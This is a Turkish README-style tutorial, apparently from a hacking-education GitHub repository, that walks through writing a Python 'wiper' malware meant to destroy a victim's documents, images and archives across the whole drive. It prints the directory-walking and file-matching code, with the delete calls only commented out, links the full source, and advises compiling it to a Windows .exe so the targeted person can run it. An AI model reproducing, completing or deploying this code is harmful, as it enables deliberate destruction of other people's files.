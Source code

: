 🕊 Bu döküman [**@KekikAkademi**](https://t.me/KekikAkademi "Telegram: @KekikAkademi") için oluşturulmuştur. ✌🏼
________________________________
# Py4H Simple Wiper Malware v1
![Py Malware](https://raw.githubusercontent.com/KekikAkademi/KekikPython/master/4-Py4H_Simple_Wiper_Malware_v1/images/py-malware.jpg)

Bu yazımızda Python dilinin ne kadar kolay ve güçlü olduğunun bir kanıtını daha göreceğiz. Basit de olsa küçük bir malware programı kodlayacağız.

### **Saldırı Senaryosu:**
Kurban, Python programımızı çalıştırdığında sistemdeki tüm docx, doc, txt, xls, pdf dosyalarını imha etmek.

### **Algoritma:**
-   Başla
   -   Kök dizine in
   -   Belirtilen dosyaları bul ve sil
   -   Bitti

### **Kod Paylaşımı:**
Aşağıdaki kodlar ile kök dizine “/” indik. Bu dizin C:/ de olabilir D:/ de olabilir yani Python programımızın hangi sürücüde çalıştırılacağına bağlıdır.

	suanki_dizin = os.getcwd() #bulundugu dizin
	a = suanki_dizin.split("/")
	sayi = len(a)-1
	for i in range(0,sayi):
		os.chdir(os.pardir)

Daha sonra [benim](http://python4hackers.com/author/oguzhan-arslan "Oğuzhan Arslan") bulup geliştirdiğim dizin taramasında kullandığım bir algoritma ile dosyalarımızı bulduk ve sildik.

	girilen_dizinler = []
	 
	def BulunanDizin(gelendizin):
		os.chdir(gelendizin)
		print("girilen dizin >> "+ gelendizin)
		girilen_dizinler.append(gelendizin)
		KontrolEt()
		os.chdir(os.pardir)
	 
	def KontrolEt():
		dosyalr = os.listdir(os.getcwd())
		for i in dosyalr:
			try:
				if re.match(".*txt",i):
					print(i) #os.remove(i)
				elif re.match(".*pdf",i):
					print(i) #os.remove(i)
				elif re.match(".*docx",i):
					print(i) #os.remove(i)
				elif re.match(".*doc",i):
					print(i) #os.remove(i)
				elif re.match(".*xls",i):
					print(i) #os.remove(i)
				elif re.match(".*jpg",i):
					print(i) #os.remove(i)
				elif re.match(".*rar",i):
					print(i) #os.remove(i)
				elif re.match(".*zip",i):
					print(i) #os.remove(i)
				elif re.match(".*mp4",i):
					print(i) #os.remove(i)
				elif os.path.isdir(i):
					if girilen_dizinler.count(i) == 0:
						BulunanDizin(i)
					else:
						pass
				else:
					pass
			except:
				pass

[Kodların Tamamına Burdan Ulaşabilirsiniz!](https://github.com/KekikAkademi/KekikPython/blob/master/4-Py4H_Simple_Wiper_Malware_v1/Py4H_Simple_Wiper_Malware_v1.py)

### **Notlar:**
   -   Tabi ki hedefteki kişinin bilgisayarında Python yüklü olmayabilir bu yüzden programımızı her Windows işletim sisteminde çalışabilmesi için pyinstaller, py2exe ya da cx_freeze modüllerinden birini kullanarak .exe dosyası haline getirmelisiniz.

   -   Şuan çok basit bir şekilde küçük bir malware yazdık, ilerleyen süreçlerde daha komplike hale getirebilirsiniz..

> Bir sonraki yazımızda görüşmek üzere.

[Kaynak](http://python4hackers.com/python-malware/py4h-simple-wiper-malware-v1.html "Saygı ve Özlemle...")
________________________________

📃 **Yandex.Disk Bünyemizde 780GB veri olmuştur.**

_Paylaşılan Kursların Tümünü_ [**@KekikKahve**](https://t.me/KekikKahve) _Grubu notlarından Çağırabilirsiniz.._

🕊️ Bize **oy verip** _paylaşarak_ destek olmaya ne dersin? ✌🏼
#
> Bu readme sayfası oluşturulurken [prose.io](http://prose.io/ "prose.io") ve [stackedit.io](https://stackedit.io/app "stackedit.io") araçlarından yardım alınmıştır..
> Emojiler için [webfx](https://www.webfx.com/tools/emoji-cheat-sheet/ "Emoji Cheat Sheet") sayfası kullanılmıştır.
